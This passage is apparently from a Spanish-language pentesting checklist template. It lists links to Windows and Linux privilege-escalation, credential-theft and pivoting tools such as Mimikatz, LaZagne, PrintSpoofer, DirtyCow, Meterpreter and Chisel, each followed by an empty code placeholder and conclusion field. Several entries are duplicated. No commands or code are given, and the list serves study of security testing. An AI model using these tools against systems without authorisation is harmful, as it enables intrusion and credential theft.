    * CONCLUSION:
*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] POWERUP👈 --------------------------------->[https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LaZagne👈 --------------------------------->[https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/47/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/lazagne-obtencion-de-credenciales-y-posibles-escaladas-de-privilegios-para-windows-y-linux)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MIMIKATZ👈 --------------------------------->[https://www.kali.org/tools/mimikatz/ ](https://www.kali.org/tools/mimikatz/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/47/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/mimikatz-obtencion-de-credenciales-y-posibles-escaladas-de-privilegios-para-windows)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ROTTENPOTATO👈 --------------------------------->[https://github.com/breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WINDOWS EXPLOITS SUGGESTER👈 --------------------------------->[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ACCESSCHK👈 --------------------------------->[https://github.com/ankh2054/windows-pentest](https://github.com/ankh2054/windows-pentest)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PSEXEC👈 --------------------------------->[https://learn.microsoft.com/en-us/sysinternals/downloads/psexec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WINPEAS👈 --------------------------------->[https://www.kali.org/tools/peass-ng/ ](https://www.kali.org/tools/peass-ng/)--->[https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BLOODHOUND --------------------------------->[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACKMAPEXEC --------------------------------->[https://www.kali.org/tools/crackmapexec/](https://www.kali.org/tools/crackmapexec/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] EMPIRE POWERSHELL Y LINUX👈 --------------------------------->[https://www.kali.org/tools/powershell-empire/ ](https://www.kali.org/tools/powershell-empire/)-->[https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] RESPONDER👈 --------------------------------->[https://www.kali.org/tools/responder/ ](https://www.kali.org/tools/responder/)-->[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LOLBAS👈 --------------------------------->[https://lolbas-project.github.io/#](https://lolbas-project.github.io)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WADCOMS comandos👈 --------------------------------->[https://wadcoms.github.io/](https://wadcoms.github.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HIJACKLIBS DLL👈 --------------------------------->[https://hijacklibs.net/](https://hijacklibs.net/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PRINTSPOOFER👈 --------------------------------->[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ROGUEWINRM👈 --------------------------------->[https://github.com/antonioCoco/RogueWinRM](https://github.com/antonioCoco/RogueWinRM)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WINDOWSPRIVESC metodos👈 --------------------------------->[https://github.com/debiantano/WindowsPrivesc](https://github.com/debiantano/WindowsPrivesc)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PRIV-ESCALATION metodos👈 --------------------------------->[https://github.com/KevinLiebergen/priv-escalation](https://github.com/KevinLiebergen/priv-escalation)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FILESEC GTFO win y linux👈 --------------------------------->[https://filesec.io/](https://filesec.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HACKTRICKS👈 --------------------------------->[https://book.hacktricks.xyz/v/es/welcome/readme](https://book.hacktricks.xyz/v/es/welcome/readme)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] POWERSPLOIT👈 --------------------------------->[https://www.kali.org/tools/powersploit/](https://www.kali.org/tools/powersploit/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] EVIL-WINRM👈 --------------------------------->[https://www.kali.org/tools/evil-winrm/](https://www.kali.org/tools/evil-winrm/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️



<details>

<summary>🐧 ESCALADA DE PRIVILEGIOS LINUX ❌</summary>

### ESCALADA DE PRIVILEGIOS LINUX

*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/57/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/57/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/57/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LaZagne👈 --------------------------------->[https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/47/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/lazagne-obtencion-de-credenciales-y-posibles-escaladas-de-privilegios-para-windows-y-linux)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GTFObins👈 --------------------------------->[https://gtfobins.github.io/](https://gtfobins.github.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GTFObins👈 --------------------------------->[https://gtfobins.github.io/](https://gtfobins.github.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GTFObins👈 --------------------------------->[https://gtfobins.github.io/](https://gtfobins.github.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINUX KERNEL CVEs👈 --------------------------------->[https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINENUM👈 --------------------------------->[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINPEAS👈 --------------------------------->[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ENUMERACION SMART LINUX👈 --------------------------------->[https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINUXPRIVCHECKER👈 --------------------------------->[https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINUX EXPLOIT SUGGESTER👈 --------------------------------->[https://github.com/The-Z-Labs/linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HACKTRICKS👈 --------------------------------->[https://book.hacktricks.xyz/v/es/welcome/readme](https://book.hacktricks.xyz/v/es/welcome/readme)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CHKROOTKIT👈 --------------------------------->[https://github.com/Magentron/chkrootkit](https://github.com/Magentron/chkrootkit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LYNIS👈 --------------------------------->[https://github.com/CISOfy/lynis](https://github.com/CISOfy/lynis)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] UNIX-PRIVESC-CHECK👈 --------------------------------->[https://github.com/pentestmonkey/unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DIRDTYCOW👈 --------------------------------->[https://github.com/firefart/dirtycow](https://github.com/firefart/dirtycow)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PRIV-ESCALATION metodos👈 --------------------------------->[https://github.com/KevinLiebergen/priv-escalation](https://github.com/KevinLiebergen/priv-escalation)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FILESEC GTFO win y linux👈 --------------------------------->[https://filesec.io/](https://filesec.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] RESPONDER👈 --------------------------------->[https://www.kali.org/tools/responder/ ](https://www.kali.org/tools/responder/)-->[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️



<details>

<summary>♻️ PIVOTING ❌</summary>

### PIVOTING

*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PROXYCHAINS👈 --------------------------------->[https://github.com/rofl0r/proxychains-ng](https://github.com/rofl0r/proxychains-ng)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NCAT👈 --------------------------------->[https://nmap.org/ncat/](https://nmap.org/ncat/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CHISEL👈 --------------------------------->[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/chisel-creacion-de-tunel-entre-servidores-local-y-remoto-tambien-para-aprovechar-pivoting)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CORKSCREW👈 --------------------------------->[https://github.com/bryanpkc/corkscrew](https://github.com/bryanpkc/corkscrew)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METERPRETER👈 --------------------------------->[https://www.metasploit.com/](https://www.metasploit.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] REGEORG👈 --------------------------------->[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] RPIVOT👈 --------------------------------->[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀





